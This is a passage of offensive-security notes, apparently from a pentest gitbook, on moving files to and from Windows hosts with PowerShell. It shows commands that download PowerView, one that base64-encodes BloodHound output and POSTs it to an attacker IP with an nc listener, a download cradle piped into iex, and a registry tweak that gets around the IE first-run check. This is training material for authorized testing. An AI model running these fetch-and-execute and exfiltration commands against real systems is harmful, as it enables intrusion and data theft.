 ```bash
# With output to the Internet (in real environments):
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
# No Internet access:
Invoke-WebRequest "http://<IP>:<PORT>/<FILE>" -OutFile "<PATH>\<FILE>"
IWR -Uri "<URL>" -OutFile "<PATH>\<FILE>" # Abbreviated form.
Invoke-RestMethod http://<IP>/<FILE> -OutFile "<PATH>\<FILE>" # Test
```

### Base64 encoding

```powershell
# We convert the content to base64 and send a web request to our IP
# with the encoded content:
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'c:/users/public/downloads/BloodHound.zip' -Encoding Byte))
# Listening to nc on port 443 (nc -nvlp 443).
# Finally, we transfer the encoded content through a web request:
Invoke-WebRequest -Uri http://<IP>:443 -Method POST -Body $b64 # Form 1
Invoke-RestMethod -Uri http://<IP>:443 -Method POST -Body $b64 # Form 2 (Test)
# After receiving the content, we decode it:
echo <base64> | base64 -d -w 0 > bloodhound.zip
```

### Others

Powershell download cradles that do not observe the Internet Explorer first run check can also be used. Harmj0y has compiled an extensive list of PowerShell dump cribs [here](https://gist.github.com/HarmJ0y/bb48307ffa663256e239). It is worth familiarizing yourself with them and their individual nuances, such as not observing a proxy or touching a disk to select the appropriate one for the situation.

### Troubleshooting

There may be cases where the configuration of the first start of Internet Explorer has not been completed, preventing the download:

![](../../.gitbook/assets/iwr\_download\_error.png)

This can be omitted with the `-UseBasicParsing` parameter:

```powershell
Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | iex
```

Alternatively, with administrative access to the machine, we can disable the customization of Internet Explorer's First run:

```shell
reg add "HKLM\SOFTWARE\Microsoft\Internet Explorer\Main" /f /v DisableFirstRunCustomize /t REG_DWORD /d 2
```
{% endtab %}
